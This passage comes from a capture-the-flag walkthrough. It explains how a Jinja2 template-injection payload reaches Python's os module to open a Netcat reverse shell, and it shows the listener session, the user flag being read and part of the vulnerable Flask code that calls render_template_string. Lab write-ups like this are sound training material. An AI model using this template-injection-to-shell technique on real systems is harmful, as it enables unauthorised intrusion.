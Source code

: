 - Uses Jinja2's `self.__init__.__globals__` to access Python’s `__builtins__`.
- Imports the `os` module dynamically.
- Executes a command to create a reverse shell using **Netcat**.

![Screenshot From 2025-05-31 01-43-51.png](img17.png)

### start the listener

```jsx
─$ nc -lvnp 443                          
listening on [any] 443 ...
connect to [10.9.0.99] from (UNKNOWN) [10.10.220.82] 59334
bash: cannot set terminal process group (604): Inappropriate ioctl for device
bash: no job control in this shell
azrael@forge:~/chatbotServer$ ls
ls
chatbot.py
__pycache__
templates
azrael@forge:~/chatbotServer$
```

### User flag

```jsx
azrael@forge:~/chatbotServer$ ls
ls
chatbot.py
__pycache__
templates
azrael@forge:~/chatbotServer$ cd ..
cd ..
azrael@forge:~$ ls
ls
chatbotServer
snap
user.txt
azrael@forge:~$ cat user.txt
cat user.txt
98d3a30f[REDACTED]44d317be0c47e
azrael@forge:~$ 

```

## Lateral Movement

### **Enumerating the file and the directory**

```jsx
azrael@forge:~/chatbotServer$ cat chatbot.py
cat chatbot.py
from flask import Flask, request, jsonify, render_template_string

app = Flask(__name__)

@app.route('/', methods=['POST'])
def index():
    data = request.get_json()
    if not data or 'username' not in data:
        return jsonify({"error": "username parameter is required"}), 400
    
    username = data['username']
    template = '''<!DOCTYPE html>
<html lang="en">
```